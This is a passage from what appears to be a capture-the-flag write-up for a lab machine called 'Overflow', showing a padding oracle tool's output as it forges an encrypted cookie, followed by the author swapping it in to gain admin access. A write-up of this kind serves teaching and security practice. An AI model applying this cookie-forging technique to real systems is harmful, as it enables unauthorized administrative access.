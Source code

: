 ```
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------

```

Exchanging our cookie for the generated one we are now logged in as admin and have access to the `Logs` feature and the `Admin Panel`.

[![025_overflow_admin](/img/overflow/025_overflow_admin.png)](/img/overflow/025_overflow_admin.png)
